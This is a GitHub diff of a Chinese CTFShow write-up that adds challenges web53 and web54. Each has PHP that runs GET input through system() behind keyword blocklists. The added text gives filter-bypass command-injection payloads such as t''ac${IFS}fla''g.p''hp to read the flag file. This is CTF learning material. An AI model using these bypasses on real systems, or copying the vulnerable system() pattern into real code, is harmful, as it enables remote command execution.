

Before and after one commit to Alice1nCradle/CTFShow-Web, a Markdown page: Web入门/Web入门.md, the part around one of its changes. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Web入门/Web入门.md
+++ b/Web入门/Web入门.md
@@ -1327,3 +1327,74 @@ if(isset($_GET['c'])){
 payload：?c=nl$IFS/fl%27%27ag||
 
 为什么不要php，没搞懂。
+
+
+
+### web53
+
+```
+<?php
+
+/*
+# -*- coding: utf-8 -*-
+# @Author: h1xa
+# @Date:   2020-09-05 20:49:30
+# @Last Modified by:   h1xa
+# @Last Modified time: 2020-09-07 18:21:02
+# @email: h1xa@ctfer.com
+# @link: https://ctfer.com
+
+*/
+
+
+if(isset($_GET['c'])){
+    $c=$_GET['c'];
+    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
+        echo($c);
+        $d = system($c);
+        echo "<br>".$d;
+    }else{
+        echo 'no';
+    }
+}else{
+    highlight_file(__FILE__);
+}
+```
+
+<br>空标签，意味着换行。也就是说会出现原指令的名字。
+
+?c=ls查看发现有flag.php和readflag？
+
+都尝试打开试试
+
+?c=t''ac${IFS}fla''g.p''hp
+
+
+
+### web54
+
+```
+<?php
+
+/*
+# -*- coding: utf-8 -*-
+# @Author: Lazzaro
+# @Date:   2020-09-05 20:49:30
+# @Last Modified by:   h1xa
+# @Last Modified time: 2020-09-07 19:43:42
+# @email: h1xa@ctfer.com
+# @link: https://ctfer.com
+
+*/
+
+
+if(isset($_GET['c'])){
+    $c=$_GET['c'];
+    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
+        system($c);
+    }
+}else{
+    highlight_file(__FILE__);
+}
+```
+
````
Also changed, not shown: other parts of Web入门/Web入门.md (+82 -1 lines).
